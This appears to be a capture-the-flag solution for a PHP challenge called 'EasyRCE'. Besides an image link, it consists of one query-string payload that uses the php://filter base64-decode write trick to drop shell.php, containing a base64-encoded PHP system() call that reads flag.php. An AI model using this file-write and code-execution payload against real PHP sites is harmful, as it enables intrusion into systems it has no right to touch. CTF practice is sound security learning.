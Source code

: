 ![image](https://github.com/Night-Tac/EasyRCE/blob/main/index.png)  
  
WP
?file=php://filter/%0A/write=convert.base64-decode/resource=shell.php&code=PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs%3D